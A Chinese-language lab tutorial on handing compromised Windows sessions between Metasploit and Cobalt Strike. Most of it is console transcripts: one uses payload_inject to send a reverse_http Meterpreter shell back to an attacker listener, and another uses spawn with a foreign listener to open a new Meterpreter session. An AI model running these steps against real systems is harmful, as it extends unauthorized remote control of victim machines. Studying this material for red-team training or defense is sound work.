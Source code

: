 # 0x00 MSF 转 CS

当我们的已经获得 meterpreter的时候转到CS只需要使用的`payload_inject`模块

```
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/payload_inject
msf exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(windows/local/payload_inject) > set lhost 192.168.59.132
lhost => 192.168.59.132
msf exploit(windows/local/payload_inject) > set lport 5555
lport => 5555
msf exploit(windows/local/payload_inject) > set session 1
session => 1
msf exploit(windows/local/payload_inject) > set disablepayloadhandler true
disablepayloadhandler => true
msf exploit(windows/local/payload_inject) > exploit -j

```

`set disablepayloadhandler true` 用来禁用 payload handler的监听否则有冲突。


然后在CS里面配置监听`set lhost 192.168.59.132` `set lport 5555` 即可

![Cobalt Strike ](./img/16.1.png)



# 0x01  CS 转 MSF 

CS转MSF 只需要用到 `spawn` 功能

>目标右键> spawn


![Cobalt Strike ](./img/16.2.png)

添加一个 Foreign 的监听器 在点choose 来到msf


```
msf > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  ADMIN-C199053CD\Administrator @ ADMIN-C199053CD  192.168.59.132:4444 -> 192.168.59.129:1035 (192.168.59.129)

msf > use exploit/multi/handler 
msf exploit(multi/handler) > set set payload windows/meterpreter/reverse_http
set => payload windows/meterpreter/reverse_http
msf exploit(multi/handler) > set lhost 192.168.59.132
lhost => 192.168.59.132
msf exploit(multi/handler) > set lport 7788
lport => 7788
msf exploit(multi/handler) > exploit 

[*] Started HTTP reverse handler on http://192.168.59.132:7788
[*] http://192.168.59.132:7788 handling request from 192.168.59.129; (UUID: qwqc9zgv) Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 2 opened (192.168.59.132:7788 -> 192.168.59.129:1086) at 2019-04-05 13:39:34 +0800

```


# 0x02  文末

### 本文如有错误，请及时提醒，以免误导他人

